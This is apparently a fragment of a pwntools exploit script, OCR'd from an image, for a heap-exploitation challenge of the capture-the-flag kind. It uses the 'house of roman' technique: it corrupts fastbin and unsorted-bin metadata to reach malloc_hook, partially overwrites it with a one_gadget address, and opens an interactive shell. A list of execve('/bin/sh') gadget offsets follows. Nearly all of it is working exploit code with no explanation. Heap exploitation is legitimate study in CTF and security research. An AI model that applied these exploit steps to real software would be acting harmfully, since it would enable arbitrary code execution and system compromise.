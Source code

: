 ```python
free(6)
edit(6,0x8,p64(0)) #fix fastbin #nice


#house of roman

free(0)
edit(0,0x10,p64(0)+"\x00\x1b") 
malloc(0x80,"AAA")	#unsortbin attack -> malloc_hook 

#write one_gadget
edit(7,0x40,"\x01"*3+p64(0)*2+"\x16\x22\xa5")
#edit(7,0x40,"\x01"*3+p64(0)*2+"\xa4\xd2\xaf")
#edit(7,0x40,"\x01"*3+p64(0)*2+"\x47\xe1\xaf")

ru("Your choice :")
sl(str(1))
ru("Size:")
sl(str(0x10))

p.interactive()
'''
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

'''
```

